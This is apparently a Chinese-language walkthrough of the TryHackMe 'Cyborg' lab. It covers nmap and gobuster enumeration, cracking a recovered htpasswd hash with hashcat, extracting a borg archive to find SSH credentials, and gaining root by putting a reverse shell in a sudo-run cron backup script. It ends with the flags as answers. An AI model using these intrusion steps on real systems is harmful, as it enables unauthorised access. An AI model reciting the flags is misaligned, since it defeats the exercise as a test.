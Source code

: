 # cyborg-WP-TryHackMe

### 前三个问题一波解决
sudo nmap -Pn -A IP
``````
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=2/4%OT=22%CT=1%CU=41824%PV=Y%DS=2%DC=T%G=Y%TM=65BF687F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11
OS:NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   273.97 ms 10.11.0.1 (10.11.0.1)
2   274.55 ms 10.10.177.155 (10.10.177.155)
``````

nmap版本扫描：
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

nmap漏洞扫描：
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /admin/admin.html: Possible admin folder
|_  /etc/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'

```

gobuster扫描：
```
/admin                (Status: 301) [Size: 314] [--> http://10.10.140.112/admin/]
/etc                  (Status: 301) [Size: 312] [--> http://10.10.140.112/etc/]
```

/admin的源码里有一个叫archive.tar的压缩包  
/etc的文件夹有passwd和squid.conf两个文件  

对passwd处理：
``````
文件内容：
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
hashcat解密为：
hashcat -m 1600 -a 0 /usr/share/wordlists/rockyou.txt hash1.txt 
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
``````

``````
aquid.conf文件内容：
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
``````

borg：
```
borg extract YOURPATH/final_archive::music_archive
```
分离出文件夹alex，里面的Document文件夹有名为notes.txt的文件，里面有凭据。
```
alex:S3cretP@s3
```  
可以用来登录ssh，进去后拿到user.txt

sudo -l发现有backup.sh的权限，在backup.sh里添加一个反shell后，监听端口(可以用chmod u+w backup.sh给自己写的权限)
在crontab里面有这个文件的任务，等一会儿自己会执行，然后拿到root

### 扫描机器，有多少端口开放？
答案：2
### 端口 22 上正在运行什么服务？
答案：ssh
### 80 端口上正在运行什么服务？
答案：http


### user.txt 标志是什么？
答案：flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}


### root.txt 标志是什么？
答案：flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}


